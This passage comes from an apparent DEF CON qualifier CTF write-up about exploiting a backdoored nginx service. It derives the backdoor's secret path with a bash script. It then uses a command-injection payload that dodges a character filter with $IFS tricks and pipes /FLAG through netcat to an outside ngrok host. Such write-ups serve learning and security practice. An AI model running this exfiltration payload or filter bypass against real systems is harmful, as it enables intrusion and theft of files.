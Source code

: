 ![nginx_version_burp](/assets/img/defcon_quals_libprce3_imgs/nginx_version_burp.png){: .mx-auto.d-block :}

so by running this script:

```bash
echo $(($(date -d '2006-04-23 10:10:10' +%s) / 86400)) | md5sum | cut -d' ' -f1 |  awk '{ for(i=0;i<10;i++) printf "%s", $1 }' > a;
echo '"'$(echo "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789" | grep -o . | shuf --random-source ./a| tr -d '\n')'"' > /dev/stdout; rm -f ./a;
```

we get the corresponding hash:

```
└─$ bash script.sh
"wpMI7xlCLtiqOk3bzUEfs1TQNVynGB4ASRFcDJ0KYPXmHv2o65gWuZ89djareh"
```

now we can have remote access to the machine, but remember that the message gets filtered by this regex `^/wpMI7...uZ89djareh/([\$a-zA-Z0-9;:/.|]+)"`, wich filers some important charachters like `{` and `>`, nonetheless, its enough to - by some considerable knowledge of bash - to run some code that will get us to the flag!

We use this command:

```bash
cat$IFS$1/FLAG$IFS$1|$IFS$1nc$IFS$1X.tcp.eu.ngrok.io$IFS$111233;
```

which if you have some knowledge of bash, you'll know that when bash parses $somenumber it stops by the first number and get evaluated to nothing, that's how we can solve the problem of breaking between `$IFS`and`something`to not get evaluated to`$IFSsomething` which gets evaluated to an empty string.

So with that said, I've settuped my `ngrok`, opened a port to listen to, and...:

![burp_request](/assets/img/defcon_quals_libprce3_imgs/burp_request.png){: .mx-auto.d-block :}

![The Flag](/assets/img/defcon_quals_libprce3_imgs/flag.png){: .mx-auto.d-block :}

Et voila!
